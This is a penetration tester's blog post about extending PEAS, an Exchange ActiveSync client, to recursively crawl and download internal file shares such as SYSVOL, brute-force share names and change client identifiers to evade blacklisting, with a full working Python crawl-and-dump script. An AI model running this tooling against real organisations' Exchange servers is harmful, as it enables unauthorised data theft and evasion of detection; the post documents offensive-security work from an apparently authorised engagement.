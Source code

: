 ```yaml
---
layout: post
title: "Tuning PEAS for Fun and Profit"
date: 2020-08-22 19:00:00 +0300
author: snovvcrash
tags: [external-pentest, exchange, activesync, peas, python]
---
```


At the recent external pentest engagement I had a feeling that PEAS (Python Exchange ActiveSync client) is missing some handy features. For example, crawling shared folders and auto downloading discovered files would be a nice function to have as well as brute forcing potential shares by a wordlist. To save time I wrote a draft script at the time of the pentest, but then I decided to fork PEAS project and tune the source code.

<!--cut-->

![banner.png](/assets/images/tuning-peas-for-fun-and-profit/banner.png)
{:.center-image}

*"Would you like to be modified?"*
{:.quote}

* TOC
{:toc}

## Prologue

Few pentest experts would argue that if there is an OWA client on the perimeter, then be ready to collect loot. And that is because OWA means MS Exchange, and MS Exchange is not the best spot to demonstrate perfect security out of the box. [Time-based username enumeration](https://www.triaxiomsecurity.com/2019/03/15/vulnerability-walkthrough-timing-based-username-enumeration/) will give you account names and a [password spray](https://github.com/sensepost/ruler/wiki/Brute-Force#brute-force-for-credentials) will likely reveal some weak credentials in the domain.

One of the ways where to go next is a hunt for fileshares with juicy content through [Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/). If you dare choose this path, then [PEAS](https://github.com/FSecureLABS/peas) by [@FSecureLABS](https://twitter.com/fsecurelabs) could become your loyal companion along the way, but there is quite a few things that could be upgraded in this tool very simply. I will fork PEAS and add some modifications to the code.

## Crawl & Dump Shared Folders

The first thing I felt the need for was the ability to recursively crawl the share searching for files by a given pattern. Let's say that the only share you were able to guess (or that you had access to) was DC's `SYSVOL`. Then it would be a pain to examine all the GUID style policy paths manually. If we could automate this process and add this `--download` option in order to mirror `SYSVOL` to an attacker's machine, then it would not be a big deal to run `find` through all the content and `xargs grep` for some extra hostnames / account names. That's exactly what [crawl_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L298) serves for:

[![peas-crawl-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-crawl-unc.png)
{:.center-image}

## Brute Force Share Names

In case you did not find any additional names within `SYSVOL` contents, then you could try to enumerate shares with a brute force attack. The [hostnames.txt](https://github.com/snovvcrash/peas/blob/master/hostnames.txt) wordlist stores some common machine names that will be mutated on-the-fly using predefined patterns and a prefix string (if you provide one). That is what [brute_unc](https://github.com/snovvcrash/peas/blob/master/peas/__main__.py#L351) is responsible for:

[![peas-brute-unc.png](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)](/assets/images/tuning-peas-for-fun-and-profit/peas-brute-unc.png)
{:.center-image}

Because I can list the root directory of the share, there is no need to guess child folder names as well — they will appear if the machine have any.

## Fix Encoding

It is also worth noting, that PEAS will likely break if it encounters a non-en-US characters in a pathname. That can be [fixed](https://github.com/snovvcrash/peas/commit/fe5508700246710325b727558b49acd8d954e746) by removing explicitly set UTF-8 encoding.

## Mimic Legitimate Identifiers

As it is stated in [@ptswarm](https://twitter.com/ptswarm)'s [research](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/):

![ptswarm-peas-1.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-1.png)
{:.center-image}

![ptswarm-peas-2.png](/assets/images/tuning-peas-for-fun-and-profit/ptswarm-peas-2.png)
{:.center-image}

Because PEAS is just a **P**ython client for **EAS**, it needs to have a user-agent string and some other identifiers that can easily be fingerprinted and added to a blacklist. Anyways, [changing them](https://github.com/snovvcrash/peas/commit/ee288bef77fb69217a2442c9b5440cd830a7846b) is also quite a straightforward task.

## Draft Script

This is the draft script that was written at the time of engagement before forking PEAS:

```python
#!/usr/bin/env python

# Usage: python2 peas-crawl-shares.py -h

import os
import errno
from random import choice
from string import ascii_uppercase, digits
from argparse import ArgumentParser

import peas
from pathlib import Path, PureWindowsPath


def init_peas_client(server, domain_netbios, user, password):
	client = peas.Peas()
	client.disable_certificate_verification()

	client.set_creds({
		'server': server,
		'user': '%s\\%s' % (domain_netbios, user),
		'password': password,
	})

	print('[*] Auth result: %s' % client.check_auth())

	return client


def list_unc(client, uncpath, show_parent=True):
	records = client.get_unc_listing(uncpath)

	if show_parent:
		print('[*] Listing: %s\n' % (uncpath,))

	output = []
	for record in records:
		name = record.get('DisplayName')
		path = record.get('LinkId')
		is_folder = record.get('IsFolder') == '1'
		is_hidden = record.get('IsHidden') == '1'
		size = record.get('ContentLength', '0') + 'B'
		ctype = record.get('ContentType', '-')
		last_mod = record.get('LastModifiedDate', '-')
		created = record.get('CreationDate', '-')
		attrs = ('f' if is_folder else '-') + ('h' if is_hidden else '-')
		output.append("%s %-24s %-24s %-24s %-12s %s" % (attrs, created, last_mod, ctype, size, path))

	print('\n'.join(output))


def crawl_unc(client, uncpath, download=False):
	records = client.get_unc_listing(uncpath)
	for record in records:
		if record['IsFolder'] == '1':
			if record['LinkId'] == uncpath:
				continue
			crawl_unc(client, record['LinkId'], download)
		else:
			if download:
				try:
					data = client.get_unc_file(record['LinkId'])
				except TypeError:
					pass
				else:
					winpath = PureWindowsPath(record['LinkId'])
					posixpath = Path(winpath.as_posix()) # Windows path to POSIX path
					posixpath = Path(*posixpath.parts[1:]) # get rid of leading "/"
					dirpath = posixpath.parent
					dirpath = mkdir_p(dirpath)
					filename = str(dirpath / posixpath.name)
					try:
						with open(filename, 'w') as fd:
							fd.write(data)
					# If path name becomes too long when filename is added
					except IOError as e:
						if e.errno == errno.ENAMETOOLONG:
							dirpath = Path(dirpath.parts[0])
							extname = posixpath.suffix
							# Generate random name for the file and put it in the root share directory
							filename = ''.join(choice(ascii_uppercase + digits) for _ in range(8)) + extname
							filename = str(dirpath / filename)
							with open(filename, 'w') as fd:
								fd.write(data)
						else:
							raise

			list_unc(client, record['LinkId'], show_parent=False)


def mkdir_p(dirpath):
	try:
		dirname = str(dirpath)
		os.makedirs(dirname)
	except OSError as e:
		if e.errno == errno.EEXIST and os.path.isdir(dirname):
			pass
		# If directory path name already too long
		elif e.errno == errno.ENAMETOOLONG:
			dirpath = Path(dirpath.parts[0])
		else:
			raise

	return dirpath


if __name__ == '__main__':
	parser = ArgumentParser()
	parser.add_argument('-s', '--server', required=True, help='server')
	parser.add_argument('-d', '--domain-netbios', required=True, help='domain NetBIOS name')
	parser.add_argument('-u', '--user', required=True, help='username')
	parser.add_argument('-p', '--password', required=True, help='password')
	parser.add_argument('--uncpath', help='UNC path')
	parser.add_argument('--crawl-unc', action='store_true', help='recursively list all files within specified UNC path')
	parser.add_argument('--download', action='store_true', help='recursively list & download files within specified UNC path')

	args = parser.parse_args()

	client = init_peas_client(args.server, args.domain_netbios, args.user, args.password)
	list_unc(client, args.uncpath)

	if args.crawl_unc:
		if args.download:
			print('\n[*] Listing and downloading all files...\n')
		else:
			print('\n[*] Listing all files...\n')

		crawl_unc(client, args.uncpath, download=args.download)
```

## Modified PEAS

* [snovvcrash/peas](https://github.com/snovvcrash/peas)

## Refs

* [FSecureLABS/peas](https://github.com/FSecureLABS/peas)
* [Accessing Internal Fileshares through Exchange ActiveSync](https://labs.f-secure.com/archive/accessing-internal-fileshares-through-exchange-activesync/)
* [PEAS: Access internal fileshares through Exchange ActiveSync](https://labs.f-secure.com/tools/peas-access-internal-fileshares-through-exchange-activesync/)
* [Attacking MS Exchange Web Interfaces – PT SWARM](https://swarm.ptsecurity.com/attacking-ms-exchange-web-interfaces/)
